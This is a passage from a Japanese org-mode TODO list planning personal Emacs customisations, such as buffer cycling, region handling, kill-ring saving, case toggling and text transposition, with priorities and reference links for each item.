   反面 bottle neck にもなるので注意

5) 備考
   C-: N
   N = number で terminal 起動

****** TODO [#C] Cycling switch

1) 結果

2) 背景 (問題点)
   次々に buffer を順番に切り換える。
   buffer を片手で見ている時に便利

3) 対応方法
   * BufferRing
   	 - http://www.emacswiki.org/emacs/BufferRing
   * http://www.emacswiki.org/emacs/ControlTABbufferCycling
   * http://www.bookshelf.jp/cgi-bin/goto.cgi?file=meadow&node=cycle%20buffers
   * http://www.mir2.org/igor/emacs/pc-bufsw.html

4) 優先順位の根拠
   なくても問題ないがあると便利。

5) 備考

****** TODO [#C] バッファ内の文字でバッファを切り替え

1) 結果

2) 背景 (問題点)
   大量に開いた buffer から特定の buffer を見付ける。

3) 対応方法
   http://www.bookshelf.jp/cgi-bin/goto.cgi?file=meadow&node=contentswitch

4) 優先順位の根拠
   あると便利かもしれない。

5) 備考

****** TODO [#C] buffer list から wdired のように rename

1) 結果

2) 背景 (問題点)
   buffer の rename を容易に

3) 対応方法
   anything からできると便利

4) 優先順位の根拠
   緊急性はない。
   あると便利であろう。

5) 備考

****** TODO [#B] buffer の自動削除

1) 結果

2) 背景 (問題点)
   help や completion auto-install の buffer が大量に残る
   手動で削除するのは手間である。
3) 対応方法
   add-hook できるものにし、呼ばれた時に idle-require に登
   録。その buffer が background におかれていれば削除。
   idle 時間を決めれるものにする。
   また、残しておきたい buffer ならコマンドでキャンセルでき
   るようにする。
   その buffer が自動で削除されるかどうかは mode-line に表示
   されるようにする
   tempbuf
   重くならないように注意。

4) 優先順位の根拠
   有用性はある。手間を省くことができ、時間短縮につながる。


5) 備考

****** DONE [#A] 最後に閉じた buffer を復元
       CLOSED: [2012-12-02 Sun 21:28]

1) 結果
   last-killed-file
   (kbd "C-M-/")

2) 背景 (問題点)
   buffer を誤って削除してしまった時に復元したい

3) 対応方法
   保留

4) 優先順位の根拠
   有用性は高い。

5) 備考

****** TODO [#B] 指定した buffer を tab group 化

1) 結果

2) 背景 (問題点)
   特定の buffer 間で移動するのにすべての buffer を取得するの
   は非効率

3) 対応方法
   tabify

4) 優先順位の根拠
   有用性は高い。
   やや面倒である可能性が高い。

5) 備考

***** 4.2. Attribute
****** TODO [#C] Outline 特定 file open 時に outline で表示する

1) 結果

2) 背景 (問題点)
   file open 時に見通しをよくする為に outline で表示。

3) 対応方法
   関数を書く必要があるかもしれない

4) 優先順位の根拠
   緊急性はない

5) 備考

****** TODO [#C] Outline で Comment は隠さない

1) 結果

2) 背景 (問題点)
   outline で fold されたとき comment も fold される。
   header などが見えなくなる。
   関数の前に書いた comment なども fold されるので視認性がよくな
   い。

3) 対応方法
   regexp の変更
   http://www.emacswiki.org/emacs/HideOrIgnoreComments

4) 優先順位の根拠
   機能優先、見た目後
   現状でも大きな問題はない

5) 備考

****** TODO [#C] Region した場所を Outline

1) 結果

2) 背景 (問題点)
   region 内を outline 化

3) 対応方法
   http://www.emacswiki.org/emacs/CategoryHideStuff
   http://www.emacswiki.org/emacs/HideShow


4) 優先順位の根拠
   緊急性はない

5) 備考

****** DONE [#A] Protect kill buffer されないようにする
       CLOSED: [2012-12-03 Mon 09:03]

1) 結果
   protect-buffer-from-kill-mode

2) 背景 (問題点)
   誤って buffer が削除されないようにする。

3) 対応方法
   http://www.bookshelf.jp/cgi-bin/goto.cgi?file=meadow&node=protbuf

4) 優先順位の根拠
   有用性はかなりある。
   しかし、導入するのに泥沼にはまる可能性もあり。

5) 備考

****** DONE [#A] ファイルを開く/ 保存/ 読み込み直しを簡単に ― disk
       CLOSED: [2012-12-03 Mon 08:57]

1) 結果
   autorevert
   autorevert-interval

2) 背景 (問題点)
   他のソフトが開いている file を編集したら自動で開きなおす。

3) 対応方法
   http://www.bookshelf.jp/cgi-bin/goto.cgi?file=meadow&node=disk

4) 優先順位の根拠
   Conflict をはやいうちに防ぐことができる。

5) 備考

****** DONE [#C] 内容の無いファイルを削除
       CLOSED: [2012-12-03 Mon 09:43]

1) 結果
   delte-file-if-no-contents

2) 背景 (問題点)

3) 対応方法
   http://www.bookshelf.jp/cgi-bin/goto.cgi?file=meadow&node=delete%20nocontents

4) 優先順位の根拠

5) 備考

****** DONE [#A] 開いている file を root の権限に変更する。
       CLOSED: [2012-12-03 Mon 09:38]

1) 結果
   change-as-root

2) 背景 (問題点)
   わざわざ root の権限で開直す手間が省ける

3) 対応方法
   調査

4) 優先順位の根拠
   有用性が高い

5) 備考

****** View
******* TODO [#A] Space を Ctrl にする

1) 結果

2) 背景 (問題点)
   Space は最も押しやすい key であるが
   view mode では使われない。

3) 対応方法
   bigctrl など導入

4) 優先順位の根拠
   優先的に導入
   可能性が広がる。

5) 備考

******* TODO [#C] 書込み失敗後、 読込専用を解除して失敗時の command を実行。

1) 結果

2) 背景 (問題点)
   view mode で paste など失敗することがある。
   解除と同時に失敗時のコマンドを実行する。
   point も移動してしまうのでもし移動してしまったら移動
   を取り消して実行。

3) 対応方法
   - disable-view-mode した後、 last-comand を実行する。

4) 優先順位の根拠
   緊急性はない。
   あると便利。

5) 備考

******* TODO [#B] Cycle buffer move

1) 結果

2) 背景 (問題点)
   view mode で片手で buffer を移動する。

3) 対応方法
   file buffer のみ移動する。
   移動先が view-mode でなければ view-mode にする。

4) 優先順位の根拠
   片手で file を閲覧できるので有用

5) 備考

******* TODO [#C] 全ての file buffer を view mode にする。

1) 結果

2) 背景 (問題点)
   view-mode にしわすれた file buffer を view mode にする。

3) 対応方法
   関数を作成

4) 優先順位の根拠
   コマンドとしてあると便利。
   緊急性はない。

5) 備考

******* TODO [#A] 書込みミス時に error 音

1) 結果

2) 背景 (問題点)
   目だけではなく耳も使って coding する

3) 対応方法
   http://www.emacswiki.org/emacs/AlarmBell

4) 優先順位の根拠
   他の関数にも応用できるので優先的に導入

5) 備考

***** 4.3. Minibuffer
****** TODO [#B] find-file minibufer のコマンドで分岐

1) 結果

2) 背景 (問題点)
   minibuffer から other-window とをコマンドで分岐させる。

3) 対応方法
   find-file-other-window
   find-file-other-frame
   binary
   root


4) 優先順位の根拠
   find-file のコマンドが統合できるので有益

5) 備考

****** TODO [#C] 不要時にはデフォルト値を表示しない

1) 結果

2) 背景 (問題点)
   他の key を入力すると default 値は必要なくなる。

3) 対応方法

4) 優先順位の根拠
   あると便利。
   緊急性はない。

5) 備考

****** TODO [#C] zsh 風の history を実現

1) 結果

2) 背景 (問題点)
   zsh のような history 補完を実現する。
3) 対応方法
   調査

4) 優先順位の根拠
   利便性が高いが導入の困難さが予想される

5) 備考

***** 4.4. Diff
****** Diff File
****** Diff Buffer
****** Diff Directory
****** Diff Hash
***** tmp
**** 6. Keybind
***** 5.1. Policy
****** TODO keybind 見直し
      １つひとつ関数まで遡って見直し
      previous-line forward-char などを更に高機能にする。
      insert-selfcommand も見直す

      [[file:~/work/emacs23-23.1%2B1/lisp/ChangeLog.10][file:~/work/emacs23-23.1+1/lisp/ChangeLog.10]]
      <2012-09-29 Sat>

***** 5.2. Repeat
****** TODO [#B] Repeat key の見直しと設定

1) 結果

2) 背景 (問題点)
   repeat key を使い易く見直し

3) 対応方法
   http://www.emacswiki.org/emacs/smartrep.el

4) 優先順位の根拠
   使用頻度は高い

5) 備考

***** 5.3. Chord
****** TODO [#B] 特定の mode では chord を使用しない。

1) 結果

2) 背景 (問題点)
   term mode などで chord が発動してしまう。

3) 対応方法
   mode-hook

4) 優先順位の根拠
   緊急性はあるが、泥沼に嵌る可能性あり。

5) 備考

***** 5.4. Hold
****** TODO [#C] key 長押し

1) 結果

2) 背景 (問題点)
   key 長押しでコマンドを実行できるようにする。

3) 対応方法
   調査

4) 優先順位の根拠
   今のところ必要性はあまりないがあると便利。
   導入は難しいかもしれない。

5) 備考

***** 5.5. Mouse
****** TODO [#B] プレゼン用のコマンドをマウスの右クリックで表示させる。

1) 結果

2) 背景 (問題点)
   普段使わないプレゼン用のコマンドをマウスの右クリックの登
   録しておく。

3) 対応方法
   拡大／縮小
   色の変更

4) 優先順位の根拠
   差し迫っての必要性はないがいずれ必要になる。

5) 備考

****** Avoidance
***** 5.6. Maintenance
****** TODO [#C] 使っていない keybind を表示

1) 結果

2) 背景 (問題点)
   使っていない keybind を調査する。

3) 対応方法
   (describe-unbound-keys 5)

4) 優先順位の根拠
   あると便利。緊急性はない。

5) 備考

****** TODO [#C] keylogger

1) 結果

2) 背景 (問題点)
   入力 key を記録し統計をとる。効率的な keybind を実現する為。

3) 対応方法
   http://www.bookshelf.jp/cgi-bin/goto.cgi?file=meadow&node=save%20keyinput

4) 優先順位の根拠
   緊急性はないが、効果は期待できる。

5) 備考

***** 5.7. Space as ctrl
****** TODO [#A] Space を Space と Ctrl と共存させる。

1) 結果

2) 背景 (問題点)
   一番押しやすい space を ctrl としても使えるようにする。

3) 対応方法
   http://www.emacswiki.org/emacs/MovingTheCtrlKey
   https://gitorious.org/at-home-modifier/pages/Home
   https://github.com/benhansenslc/BigCtrl


4) 優先順位の根拠
   優先的に導入
   可能性が広がる。


5) 備考

**** 7. Cursor Move
***** TODO [#B] linum-mode 色付

1) 結果

2) 背景 (問題点)
   linum-mode に 4 行ずつに色を付け C-u C-k で移動する。
   C-u を押すとカーソル位置から基準に上下の色を消してい
   く。論理行も考慮する必要あり。

3) 対応方法
   linum の source を読む

4) 優先順位の根拠
   非常に面白そうな機能。

5) 備考

***** TODO [#C] 色で移動

1) 結果

2) 背景 (問題点)
   色ごとに移動するとドキュメント編集などが楽になるかも

3) 対応方法
   color property を取得

4) 優先順位の根拠
   効果は未知数。動作はすこし遅くなる可能性あり

5) 備考

***** 6.1. check point
****** TODO [#B] cursorl 位置保存

1) 結果

2) 背景 (問題点)
   ある場所を記録しそこを行ったり来りする

3) 対応方法
   register
   http://d.hatena.ne.jp/supermassiveblackhole/20100628/1277702510
   undo point
   fringe に表示
   overlay
   bm.el

4) 優先順位の根拠
   有用性はかなり期待できる

5) 備考

****** TODO [#C] 迷子対策

1) 結果

2) 背景 (問題点)
   view-mode などで誤って移動コマンドを実行すると
   元居た場所を見失ってしまう。

3) 対応方法
   undo redo point
   もっとざっくりと移動したい
   line ごとで移動
   若しくは、可視化したい
   undo redo point の間、 overlay する。
   最後の region に移動

4) 優先順位の根拠
   有用性はかなりあり

5) 備考

****** TODO [#B] 最後に編集した位置へ移動

1) 結果

2) 背景 (問題点)
   最後に編集した位置へ移動

3) 対応方法
   http://d.hatena.ne.jp/supermassiveblackhole/20100628/1277702510

4) 優先順位の根拠
   有用

5) 備考

***** 6.2. keyboard rate
****** DONE [#A] Repeat 速度 を変更
       CLOSED: [2012-12-24 Mon 15:20]

1) 結果

2) 背景 (問題点)
   カーソルを速く動かす為に keyboard の repeat 速度をあげる

3) 対応方法
   http://www.emacswiki.org/emacs/KeyboardRate

4) 優先順位の根拠
   導入が容易でかなりの効果を期待できる。

5) 備考

***** 6.3. Each char or line move
***** 6.4. Each word
***** 6.5. Each symbol
***** 6.6. Sequential Move
****** POSTPONES [#B] Sequential move

1) 結果

2) 背景 (問題点)


3) 対応方法
連続した移動

- Sequential Backward
  line の indent 先頭に移動。
  indent の先頭なら line の先頭に移動。
  line の先頭で Column が記録されていれば Column を Clear 。
  line の先頭で Column が記録されていなければ window の先頭に移動。
  window の先頭なら buffer の先頭に移動。
  buffer の先頭なら元の位置へ移動。
  univarsal-argument 4 で元の位置へ移動。
                     8 で line の先頭へ移動
                     12 で window の先頭へ移動。
                     16 で buffer の先頭へ移動。

- Sequential Forward
  sufix coment があればコメントを無視した line の末尾に移動。
  現在のポイントがコメントを無視した末尾なら window の末尾に移動。
  window の末尾なら buffer の末尾に移動。
  buffer の末尾なら元の位置へ移動。
  univarsal-argument 4 で元の位置へ移動。
                     8 で line の末尾へ移動
                     12 で window の末尾へ移動。
                     16 で buffer の末尾へ移動。

4) 優先順位の根拠

5) 備考

***** 6.7. move bind now
**** 8. Editing
***** 7.1. [2/11] 範囲 (region, narrowing)
******* DONE [#B] region の復元
        CLOSED: [2012-12-06 Thu 04:29]

1) 結果
   remark
   改善の余地あり

2) 背景 (問題点)
   前回設定した region を復元した場合がある

3) 対応方法
   調査

4) 優先順位の根拠
   有用性はかなりあり

5) 備考

******* DONE [#A] region したまま buffer の最後 で next-line しても region を解除させない
        CLOSED: [2012-12-06 Thu 09:50]

1) 結果
   (setq next-line-add-newlines nil)

2) 背景 (問題点)
   region で mark したまま buffer の最後で next-line すると
   region が解除されてしまう

3) 対応方法
   next-line 等の改造

4) 優先順位の根拠
   よく起る。
   再度 region を設定しなおすのが面倒

5) 備考

******* TODO [#B] shift で region を拡大する

1) 結果

2) 背景 (問題点)
   windows のように shift で移動すると region が広げられるよう
   にする。
   かなり、 region 指定がはやくなる。

3) 対応方法
   space as ctrl を設定してから

4) 優先順位の根拠
   有用性はかなり高い。
   space as ctrl してから

5) 備考

******* TODO [#B] expand region

1) 結果

2) 背景 (問題点)
   region command 連打で状況に応じて region を広げる

3) 対応方法
  word の先頭以外なら word を region
  word の先頭なら space x 2 で symbol 全体を region (global-set-key)
  word symbol ""() 内 ""() 外 line defun window buffer
  overlay の利用も検討
Shift + Space = cursol から end-of-line まで region

4) 優先順位の根拠
   有用性あり。

5) 備考

******* TODO [#A] multi region

1) 結果

2) 背景 (問題点)
   region を複数 選択しそれぞれにコマンドを実行する。

3) 対応方法
   http://www.emacswiki.org/emacs/ApplyFunctionOnMultipleRegions

4) 優先順位の根拠
   かなり有用

5) 備考

******* TODO [#C] 数行ずつ region する

1) 結果

2) 背景 (問題点)
   ストライプ状に region してコマンドを実行したい

3) 対応方法
   調査

4) 優先順位の根拠
   multi region が導入されてから。

5) 備考

******* TODO [#C] 重複する行を region する

1) 結果

2) 背景 (問題点)
   重複した行を region してコマンドを実行したい

3) 対応方法
   調査

4) 優先順位の根拠
   multi-region が導入されてから

5) 備考

******* TODO [#B] rectangle のまま forward-word などの移動コマンド

1) 結果

2) 背景 (問題点)
   現状 rectangle のまま forward-word できていないので導入

3) 対応方法
   rectangle cua-base の source を読む

4) 優先順位の根拠
   使えると便利

5) 備考

******* TODO [#B] rectangle expand symbol paragraph 内 defun 内

1) 結果

2) 背景 (問題点)
   rectangle の縦幅を symbol defun paragraph で切替できるよ
   うにする。

3) 対応方法
   rectangle の source を読む。

4) 優先順位の根拠
   有益

5) 備考

******* TODO [#B] <number> line ずつ narrowing する。

1) 結果

2) 背景 (問題点)
   行数づつ narrowing する。

3) 対応方法
   関数を書く

4) 優先順位の根拠
   使う機会は多いと思う

5) 備考

******* TODO [#C] protect region

1) 結果

2) 背景 (問題点)
   指定した範囲を kill copy を block する。

3) 対応方法
   block したところは overlay
   block した word,symbol を含めてコピーした場合、 block した
   範囲を取り除いて kill-ring する。
   また、 font-lock 別でも block できるようにする。

4) 優先順位の根拠
   有用性はある。しかし、導入に困難かもしれない。

5) 備考

***** 7.2. 対象 (word symbol paragraph)
****** TODO [#C] 検索履歴による再検索

1) 結果

2) 背景 (問題点)
   検索に以前検索した履歴を使う

3) 対応方法
   調査

4) 優先順位の根拠
   導入がやや困難かも

5) 備考

****** TODO [#B] 正規表現 template

1) 結果

2) 背景 (問題点)
   正規表現を作成するのに template があると
   簡単に作成できる。

3) 対応方法
anything などで説明付きの正規表現を選んで insert する。
|-------+--------|
| thing | regexp |
|-------+--------|
| ipv4  |        |
| ipv6  |        |
|-------+--------|

   yasnippet を使う

4) 優先順位の根拠
   正規表現の利用頻度が高い

5) 備考

******* Regexp
******* Fuzzing Match
******* Across file
****** TODO [#B] 曖昧検索

1) 結果

2) 背景 (問題点)
   曖昧検索を導入する

3) 対応方法
   http://www.bookshelf.jp/cgi-bin/goto.cgi?file=meadow&node=approx-search

4) 優先順位の根拠
   緊急性はないが、かなりの効果を期待できる

5) 備考

****** TODO [#A] Across file

1) 結果
   clean-dmoccur-buffers

   ・ M-x moccur : ファイルバッファのみを検索 (正規表現)
 ・ C-u M-x moccur : すべてのバッファを検索 (正規表現)
 ・ M-x dmoccur : 指定したディレクトリ下のファイルを検索 (正規表現)
 ・ C-u M-x dmoccur : あらかじめ指定しておいたディレクトリ下のファイルを検索できる (正規表現)
 ・ M-x moccur-grep : grep のようにファイルを検索 (正規表現)
 ・ M-x moccur-grep-find : grep+find のようにファイルを検索 (正規表現)
 ・ M-x search-buffers : すべてのバッファを全文検索．
 ・ M-x grep-buffers : 開いているファイルを対象に grep ．
 ・ バッファリストで M-x Buffer-menu-moccur : m でマークをつけたバッファのみを対象に検索
 ・ dired で M-x dired-do-moccur : m でマークをつけたファイルのみを対象に検索
 ・ moccur の結果で s:一致したバッファのみで再検索
 ・ moccur の結果で u:一つ前の条件で検索

2) 背景 (問題点)
   file にわたって検索する。

3) 対応方法
   moccur
   http://www.emacswiki.org/emacs/CategorySearchAndReplace

4) 優先順位の根拠
   使用頻度、有益性ともに重要

5) 備考

***** 7.3. 操作 (delete copy paste etc)
****** TODO [#C] copy と kill command を統合

1) 結果

2) 背景 (問題点)
   copy コマンドした後にもう一度同じコマンドを実行したら 以前
   の範囲を kill する。

3) 対応方法
   関数を書く

4) 優先順位の根拠
   導入してみないと有益かどうかわからない

5) 備考

****** 7.3.1. [1/6]  Copy
******* DONE [#B] copy したら clipboard と kill-ring に挿入
        CLOSED: [2012-12-24 Mon 09:05]

1) 結果

2) 背景 (問題点)
   clipboard と kill-ring の挙動を操作する。

3) 対応方法
   copy コマンドを編集

4) 優先順位の根拠
   完全に操作できるようになると有益

5) 備考

******* TODO [#C] 選択せずに copy

1) 結果

2) 背景 (問題点)
   選択する手間が省けるので操作がはやくなる。

3) 対応方法
   http://www.emacswiki.org/emacs/CopyWithoutSelection

4) 優先順位の根拠
   緊急性はない。

5) 備考

******* TODO [#B] line を copy する

1) 結果

2) 背景 (問題点)
   line を簡易に copy する

3) 対応方法
   http://www.emacswiki.org/emacs/CopyingWholeLines

4) 優先順位の根拠
   有益

5) 備考

******* TODO [#C] copy した text を編集する

1) 結果

2) 背景 (問題点)
   copy した text を paste する前に編集する

3) 対応方法
   kill-ring を編集

4) 優先順位の根拠
   緊急性はない。

5) 備考

******* TODO [#B] clipboard を監視し文字列によってアクションを起す。

1) 結果

2) 背景 (問題点)
   clipboard を監視してそれに応じて action を起す。
   clipboard の text を自動編集など

3) 対応方法
   copy hook

4) 優先順位の根拠
   状況によっては便利

5) 備考

******* TODO [#B] clipboard にいれられた文字数、行数をみる。

1) 結果

2) 背景 (問題点)
   文字数、行数を見るのにコマンドを覚えなくてもよい

3) 対応方法
   kill-ring

4) 優先順位の根拠
   使い勝手はよいとおもう
   速度に問題があるかもしれない

5) 備考

****** 7.3.2. [4/13] Killing, Deleting
******* DONE [#B] killing の挙動
        CLOSED: [2012-12-24 Mon 08:52]

1) 結果
   kill-region

2) 背景 (問題点)
   kill したら kill-ring に挿入

3) 対応方法
   kill hook

4) 優先順位の根拠
   完全に操作できるようになると有益

5) 備考

******* DONE [#B] deleting の挙動
        CLOSED: [2012-12-24 Mon 08:52]

1) 結果

2) 背景 (問題点)
   clibboard には挿入しない
   kill-ring には挿入

3) 対応方法
   delete command の関数を変数しなおす

4) 優先順位の根拠
   完全に操作できるようになると有益

5) 備考

******* TODO [#B] minibuffer で削除したものは、 clipboard に挿入しない

1) 結果

2) 背景 (問題点)
   minibuffer で default 値が入っていると削除してから paste す
   ることがあるので削除したものが clipboard にあると不便。

3) 対応方法
   minibuffer の local variable 等調べる。

4) 優先順位の根拠
   完全に操作できるようになると有益

5) 備考

******* TODO [#C] 行頭・行末の空白文字を削除

1) 結果

2) 背景 (問題点)
   text 整形

3) 対応方法
   既存の関数を調べる

4) 優先順位の根拠
   緊急性はない

5) 備考

******* TODO [#C] 行単位で間引く

1) 結果

2) 背景 (問題点)
   行単位で削除できるようにする。

3) 対応方法
   region の設定と組合せる

4) 優先順位の根拠
   region の設定が終ってから

5) 備考

******* DONE [#A] kill-ring を crash 対策で disk に保存
        CLOSED: [2012-12-03 Mon 19:36]

1) 結果
   savekill

2) 背景 (問題点)
   kill した後に crash すると auto-save していても
   kill-ring の内容がなくなり、途方にくれてしまう。

3) 対応方法
   kill-ring-save.el

4) 優先順位の根拠
   編集内容を失わない為にも非常に重要

5) 備考

******* DONE [#A] kill-ring の内容をすべて disk に保存
        CLOSED: [2012-12-03 Mon 18:42]

1) 結果
(defvar kill-ring-log-file (concat my-data-dir "kill-ring-log.org"))
(defadvice kill-new (before kill-ring-log activate)
  (write-region (concat "\n* " (format-time-string "%c") "\n"
                        string)
                nil kill-ring-log-file t 'silent))


2) 背景 (問題点)
   kill-ring の履歴をとることで履歴を辿れる

3) 対応方法
   [[#Emacs.log][kill-ring.log]]

4) 優先順位の根拠
   編集内容を失わない為にも非常に重要

5) 備考

******* TODO [#B] 保存された kill-ring から文字列を検索

1) 結果

2) 背景 (問題点)
   保存した kill-ring から簡単に検索ができるようにする
   code の再利用に最適

3) 対応方法
   grep moccor 等を使う

4) 優先順位の根拠
   kill-ring の保存をまず先に導入

5) 備考

******* TODO [#C] kill した text の位置、 buffer を記録。

1) 結果

2) 背景 (問題点)
   kill した text の file 名、 位置を kill-ring に記録

3) 対応方法
   text Properties

4) 優先順位の根拠
   導入が困難かもしれない

5) 備考

******* TODO [#B] whitespace 調整コマンド の統合

1) 結果

2) 背景 (問題点)
   + fix-whitespace just-one-space
    コマンド統合。もし whitespace が 2 つあれば 1 つにし、
    1 つであれば word を join する。

3) 対応方法
   http://www.emacswiki.org/emacs/DeletingWhitespace


4) 優先順位の根拠
   導入が簡単かつ有益

5) 備考

******* TODO [#C] toggle delete command

1) 結果

2) 背景 (問題点)
   delete command を command で toggle
   key を有効活用する

3) 対応方法
   関数を書く
   変数などで切替

4) 優先順位の根拠
   利便性は導入してみないとわからない

5) 備考

******* TODO [#C] delete forward の機能を考える

1) 結果

2) 背景 (問題点)
   delete は基本 backward 方面を削除する
   逆方面の削除のコマンドを考える

3) 対応方法
   C-u command = shift backspace
   and lastcommand memq delete command backspace repeat shift backspace

4) 優先順位の根拠
   時間がかかるかも

5) 備考

******* TODO [#C] delete prefix

1) 結果

2) 背景 (問題点)
   delete prefix key を押した後の移動コマンドで削除

3) 対応方法


4) 優先順位の根拠

5) 備考

****** 7.3.3. [2/6]  Paste, Yanking
******* DONE [#B] paste はすべて clipboard から行う
        CLOSED: [2012-12-24 Mon 08:09]

1) 結果
   x-clipboard-yank

2) 背景 (問題点)
   clipboard を軸に copy paste を行う

3) 対応方法
   paste の関数を編集

4) 優先順位の根拠
   完全に操作できるようになると有益

5) 備考

******* DONE [#B] paste したら indent を自動で行う
        CLOSED: [2012-12-24 Mon 08:10]

1) 結果
   defadvice

2) 背景 (問題点)
   paste すると indent を調整しなくてはいけない場合があるので
   paste 時に indent する

3) 対応方法
   関数を書く

4) 優先順位の根拠
   手間が省けるので有益

5) 備考

******* TODO [#C] overwrite paste

1) 結果

2) 背景 (問題点)
   line 等 overwrite する

3) 対応方法
   一時的に overwrite mode にする。

4) 優先順位の根拠
   緊急性はない

5) 備考

******* TODO [#C] 貼り付け位置を先に指定 ― fcopy

1) 結果

2) 背景 (問題点)
   貼り付け先を先に指定して copy & paste
   copy text の後に new line を挿入する等のオプションをつける

3) 対応方法
   http://www.bookshelf.jp/cgi-bin/goto.cgi?file=meadow&node=fcopy

4) 優先順位の根拠
   緊急性はないが利便性はある。

5) 備考

******* TODO [#B] Moccur で line, defun, paragraph を duplicate する。

1) 結果

2) 背景 (問題点)
   duplicate をもっと使いやすくする

3) 対応方法
   調査

4) 優先順位の根拠
   使用頻度は多いと思う

5) 備考

******* TODO [#B] duplicate-line を yasnippet で使える用にする

1) 結果

2) 背景 (問題点)
   duplicate-line で一部のみ編集したい

3) 対応方法
   yasnippet
   overlay

4) 優先順位の根拠
   使える様になるとかなり有益

5) 備考

****** 7.3.4. [3/10] Replace
******* DONE [#A] rotate text yes <=> no
        CLOSED: [2012-12-03 Mon 20:04]

1) 結果
   rotate-word-at-point

2) 背景 (問題点)
   |------+-----+-------|
   | Ture | <=> | False |
   | Yes  | <=> | No    |
   | t    | <=> | nil   |
   |------+-----+-------|
   これらの文字列を入れ替える

3) 対応方法
   http://www.emacswiki.org/emacs/RotateText

4) 優先順位の根拠
   書き換えミスを防ぐことが出来るので非常に有用

5) 備考

******* TODO [#C] Spell Check

1) 結果

2) 背景 (問題点)
   英語の spell を check し書き換える
3) 対応方法
   http://www.emacswiki.org/emacs/CategorySpelling

4) 優先順位の根拠
   緊急性はない

5) 備考

******* TODO [#B] 誤った文字列の置き換え

1) 結果

2) 背景 (問題点)
   よく間違う文字を事前に定義し command で置き換える

3) 対応方法
   replace

4) 優先順位の根拠
   有用性あり

5) 備考

******* TODO [#C] Grammar checking

1) 結果

2) 背景 (問題点)

3) 対応方法
   調査
   http://www.emacswiki.org/emacs/BaoqiuCui

4) 優先順位の根拠

5) 備考

******* TODO [#B] 大文字 <=> 小文字

1) 結果

2) 背景 (問題点)
   大文字と小文字を toggle

3) 対応方法
   http://www.emacswiki.org/emacs/RotateWordCapitalization
- 小文字 => 大文字

  + 文字の先頭を大文字にする。

    * 1Word の先頭を変換
    * region があれば region 内を変換
    * prefix 付き [保留]
    * eq last-command であれば小文字にする。

  + symbol 全体を大文字にする。

    * cursor 位置どこでも symbol 全体を大文字にする。
    * region があれば region 内を全て大文字にする。
    * prefix 付き [保留]
    * eq last-command であれば小文字にする。

- 大文字 => 小文字

  + 文字の先頭を小文字にする。

    * 1word の先頭を変換
    * region があれば region 内を変換
    * prefix 付き [保留]
    * eq last-command であれば大文字にする。

  + symbol 全体を小文字にする。

    * cursor 位置どこでも symbol 全体を小文字にする。
    * region があれば region 内を全て小文字にする。
    * prefix 付き [保留]
    * eq last-command であれば大文字にする。

- downcase-word, upcase-word, capitalize-word,
  downcase-region, upcase-region

4) 優先順位の根拠
   まれに使う

5) 備考

******* TODO [#B] 大文字 <=> 小文字 Cursor 下を toggle

1) 結果

2) 背景 (問題点)
   cursor 下のみ toggle

3) 対応方法
   http://steve-yegge.blogspot.com/2006/06/shiny-and-new-emacs-22.html

4) 優先順位の根拠
   稀に使う

5) 備考

******* TODO [#B] 全角 <=> 半角

1) 結果

2) 背景 (問題点)
   text 整形時に利用
   Cursor 下を toggle

3) 対応方法
   - 全角 => 半角

  + Cursor 位置どこでも symbol 全体を半角にする。
  + region があれば region 内を全て半角にする。
  + prefix 付き [保留]
  + eq last-command であれば全角にする。

- 半角 => 全角

  + Cursor 位置どこでも symbol 全体を全角にする。
  + region があれば region 内を全て全角にする。
  + prefix 付き [保留]
  + eq last-command であれば半角にする。


4) 優先順位の根拠
   稀に使う

5) 備考

******* TODO [#A] 改行コード変更

1) 結果

2) 背景 (問題点)
   windows や Mac で改行コードが違うので整形

3) 対応方法
   http://unicus.jp/skmk/archives/315
   http://rakkyoo.net/?p=804

4) 優先順位の根拠
   利用する頻度は高い

5) 備考

******* DONE [#A] tab <=> space
        CLOSED: [2012-12-03 Mon 20:25]

1) 結果
   tabify
   untabify

   alias
   space-to-tab
   tab-to-space

2) 背景 (問題点)
   tab と space に toggle 。

3) 対応方法
   http://www.bookshelf.jp/cgi-bin/goto.cgi?file=meadow&node=tabify

4) 優先順位の根拠
   利用頻度は高い

5) 備考

******* DONE [#A] Header 更新
        CLOSED: [2012-12-05 Wed 18:04]

1) 結果
   header2

2) 背景 (問題点)
   書込み時に header を更新

3) 対応方法
   regexp
   replace

4) 優先順位の根拠
   あるとかなり便利

5) 備考

****** 7.3.5. [6/9]  Fixing
******* DONE [#C] char transpose
        CLOSED: [2012-12-24 Mon 09:51]

1) 結果

2) 背景 (問題点)
   char を入替

3) 対応方法

4) 優先順位の根拠
   頻度は低め

5) 備考

******* DONE [#B] word transpose
        CLOSED: [2012-12-24 Mon 09:51]

1) 結果

2) 背景 (問題点)
   word を入替

3) 対応方法


4) 優先順位の根拠
   使用頻度は稀にある

5) 備考
******* DONE [#B] symbol transpose
        CLOSED: [2012-12-24 Mon 09:52]

1) 結果

2) 背景 (問題点)
   symbol を入替

3) 対応方法

4) 優先順位の根拠
   使用頻度は稀にある

5) 備考
******* DONE [#A] line transpose
        CLOSED: [2012-12-24 Mon 09:50]

1) 結果
   move-text-up

2) 背景 (問題点)
   line を入替

3) 対応方法


4) 優先順位の根拠
   使用頻度は多い

5) 備考

******* DONE [#C] reverse-words
        CLOSED: [2012-12-24 Mon 10:48]

1) 結果
   reverse-chars-in-region
   reverse-line-region
   reverse-word

2) 背景 (問題点)
   region 内の word 文字列を逆順にする。

3) 対応方法
   http://www.emacswiki.org/emacs/ReverseWords

4) 優先順位の根拠
   使用頻度まかなり稀

5) 備考

******* TODO [#B] イコール記号「=」の左辺と右辺を一括して入れ替える

1) 結果

2) 背景 (問題点)
   イコール記号「=」の左辺と右辺を一括して入れ替える

3) 対応方法


4) 優先順位の根拠
   プログラミング時に使う

5) 備考

******* TODO [#B] region を起点にして入替

1) 結果

2) 背景 (問題点)
   + "foundSpace == True"
    "True == foundSpace"
    "==" に region を設定した場合


3) 対応方法


4) 優先順位の根拠
   対応はすこしやっかいかも

5) 備考

******* DONE [#C] multi-region を使って 2 つの region を入替
        CLOSED: [2012-12-24 Mon 11:14]

1) 結果

2) 背景 (問題点)
   multi-region を使って 2 つの region を入替

3) 対応方法


4) 優先順位の根拠
   multi-region の導入が先

5) 備考

******* TODO [#C] rectangle transpose

1) 結果

2) 背景 (問題点)
   rectangle 内を transepose

3) 対応方法

4) 優先順位の根拠
   導入はかなり困難が予想される

5) 備考

****** 7.3.6. [1/2]  Parentheses
******* DONE [#B] 閉じ括弧の入力で indent
        CLOSED: [2012-12-03 Mon 20:39]

1) 結果
   right-parentheses-indent

2) 背景 (問題点)
   閉じ括弧の入力後に indent することが多いので

3) 対応方法
   self-insert

